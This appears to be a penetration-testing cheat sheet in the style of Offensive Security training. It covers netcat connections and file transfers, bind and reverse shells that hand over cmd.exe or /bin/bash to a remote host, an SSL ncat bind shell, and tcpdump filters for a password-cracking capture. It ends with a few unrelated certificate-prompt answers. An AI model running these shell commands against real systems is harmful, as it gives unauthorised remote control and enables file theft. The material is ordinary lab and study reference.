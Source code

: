 ## Netcat

#### Basic Connection to port

```text
$ nc -nv 10.0.0.22 110
```

#### Listening on a port

```text
C:\Users\user>nc -nlvp 4444

$ nc -nlvp 4444
```

#### File Transfers

```text
C:\Users\user\Desktop>nc -nlvp 4444 > incoming.exe

$ nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe
```

#### Bind Shell

```text
C:\Users\user>nc -nlvp 4444 -e cmd.exe

$ ifconfig eth0 | grep inet
$ nc -nv 10.0.0.22 4444
```

#### Reverse Shell

```text
C:\Users\user>nc -nlvp 4444

$ nc -nv 10.0.0.22 4444 -e /bin/bash
```

#### SSL Encrypted Bind Shell

```text
C:\Users\user>ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl
$ ncat -v 10.0.0.22 4444 --ssl
```

## Packet Capture

```text
$ tcpdump -r password_cracking_filtered.pcap

$ tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3}'|sort -u | head

$ tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap

$ tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap

$ tcpdump -n port 81 -r password_cracking_filtered.pcap

$ tcpdump -nX -r password_cracking_filtered.pcap

$ tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```


[Unknown]: Ownage Dept
[Unknown]: Offensive Security
[Unknown]: localhost
[Unknown]: 127.0.0.1
[Unknown]: US
[no]: yes